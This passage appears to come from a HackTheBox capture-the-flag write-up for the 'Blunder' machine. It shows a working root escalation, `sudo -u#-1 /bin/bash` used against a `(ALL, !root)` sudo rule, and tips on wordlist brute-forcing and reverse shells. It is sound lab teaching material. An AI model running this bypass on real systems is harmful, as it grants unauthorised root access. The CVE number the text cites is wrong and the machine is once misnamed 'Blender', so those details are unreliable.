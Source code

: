 And there we get the user flag.

### Privilege Escalation

We can now run the command `sudo -l` to check the commands that 'hugo' can run with `sudo` privilege:

```
hugo@blunder:~$ sudo -l
sudo -l
Password: 

Matching Defaults entries for hugo on blunder:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User hugo may run the following commands on blunder:
    (ALL, !root) /bin/bash
```

Now the entry `(ALL, !root) /bin/bash` gives a direct hint towards the vulnerability [CVE-2019-4287](https://www.exploit-db.com/exploits/47502) which can be simply exploited as:

```
hugo@blunder:~$ sudo -u#-1 /bin/bash
sudo -u#-1 /bin/bash
Password: 

root@blunder:/home/hugo# cat /root/root.txt
cat /root/root.txt
```

By exploiting this simple vulnerability we get root access and can read the flag as well!

With this, we pwned the Blender machine!



## Some Key Points to Take Away

1. When you have access to some articles try using `cewl` to obtain a list of words and use them to bruteforce login.
2. If you are not able to make an unstable shell stable, try to get another reverse shell from the unstable shell.



## Links Referred

1. HackTheBox-Blunder: https://www.hackthebox.eu/home/machines/profile/254
2. Bludit Directory Traversal Attack: https://www.exploit-db.com/exploits/48701
3. CrackStation: https://crackstation.net/
4. Gray-0men: https://github.com/Gray-0men
5. CVE-2019-4287: https://www.exploit-db.com/exploits/47502
